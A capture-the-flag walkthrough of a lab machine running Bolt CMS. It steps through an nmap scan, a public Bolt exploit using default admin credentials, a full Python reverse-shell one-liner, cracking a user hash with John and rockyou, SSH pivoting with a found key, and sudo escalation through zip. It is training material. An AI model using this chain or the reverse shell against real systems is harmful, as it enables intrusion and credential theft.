# nmap

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-20 16:48 IST
Nmap scan report for 10.10.81.95
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 b1:ac:a9:92:d3:2a:69:91:68:b4:6a:ac:45:43:fb:ed (DSA)
|   2048 3a:3f:9f:59:29:c8:20:d7:3a:c5:04:aa:82:36:68:3f (RSA)
|   256 f9:2f:bb:e3:ab:95:ee:9e:78:7c:91:18:7d:95:84:ab (ECDSA)
|_  256 49:0e:6f:cb:ec:6c:a5:97:67:cc:3c:31:ad:94:a4:54 (ED25519)
80/tcp open  http    nginx 1.6.2
|_http-generator: Bolt
|_http-server-header: nginx/1.6.2
|_http-title: Graece donan, Latine voluptatem vocant. | Erit Securus 1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

there are two open port `22 ssh ` and `80 http`

# 80 http


its running bolt cms .

found the exploit https://www.exploit-db.com/exploits/48296

the login page uri `http://<ip>/bolt` and credentials `admin:password`



now running the exploit



using python reverse shell 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

gained access 



In the app/database directory you will find the bolt.db SQLite3 database

`file bolt.db`
bolt.db: SQLite 3.x database, last written using SQLite version 3020001

Open database:



This contains a lot of tables:




We list the bolt user database, like this:



We see two users, the admin we already own, the other one is a wild one.  We also see another IP address, 192.168.100.1 (note to self)

We copy the hash and save it to a file. Then run it through john the ripper, using the infamous "[rockyou](https://en.wikipedia.org/wiki/RockYou) wordlist

```
john hash -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

Using this password, we try to su as the user wileec. This works, and we should find our first flag.



Switching user to wileec and found flag 1



found shh key for wileec in  `/home/wileec/.ssh`

#  Pivoting                            

User wileec has a ssh private-key!

Remember the other IP address? We could try to connect to that one, using the SSH key:

```
ssh wileec@192.168.100.1
```

# privilege escalation

using `sudo -l`



looking at tis we can see jsmith can use zip as root looking at [gtfobins](https://gtfobins.github.io/gtfobins/zip/#sudo)





Found flag2.txt



Checking Jsmith sudo rights by `sudo -l` he has full sduo rights 



found root flag 

